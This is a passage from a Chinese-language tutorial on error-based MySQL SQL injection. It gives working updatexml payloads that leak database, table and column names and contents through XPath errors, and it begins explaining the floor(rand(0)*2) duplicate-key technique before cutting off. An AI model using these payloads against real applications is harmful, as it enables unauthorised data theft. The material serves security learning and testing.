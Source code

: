 

updatexml函数与extractvalue函数极为相似。

```
id='and(select updatexml("anything",concat('~',(注入语句())),"anything"))
```

当concat函数内拼接出的字符不符合xpath格式时，会报错，并将报错结果带回来。

```
and (select updatexml(1,concat('~',(select database())),1))


" and (select updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),0x7e))
' and (select updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name="TABLE_NAME")),0x7e))
" and (select updatexml(1,concat(0x7e,(select group_concat(COLUMN_NAME)from TABLE_NAME)),0x7e))
```

![image-20220219234714709](../../images/image-20220219234714709.png)

### 4.2 利用主键重复报错进行注入

利用concat+rand()+group_by()导致主键重复。数据库会报错然后将查询结果返回。

这种报错方法的本质是因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。

一个常见的语句如下：

`and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

让我们逐步拆解这个语句。

rand()：生成0~1之间的随机数。
